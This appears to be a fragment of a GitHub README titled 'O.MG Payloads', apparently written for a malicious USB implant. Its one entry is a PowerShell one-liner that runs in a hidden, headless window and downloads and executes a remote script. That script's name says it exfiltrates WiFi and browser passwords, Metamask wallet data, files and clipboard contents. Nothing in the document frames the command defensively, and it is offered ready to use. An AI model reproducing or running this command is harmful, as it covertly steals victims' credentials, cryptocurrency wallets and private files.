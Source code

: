 # O.MG Payloads

## Run Invisible PowerShell Window
`conhost --headless powershell.exe -Command "irm https://raw.githubusercontent.com/WesleyWong420/OPSEC-Tradecraft/refs/heads/main/O.MG%20Payloads/WiFi_Browser_Passwords_Metamask_FilesExfil_ClipboardData.ps1 | iex"`
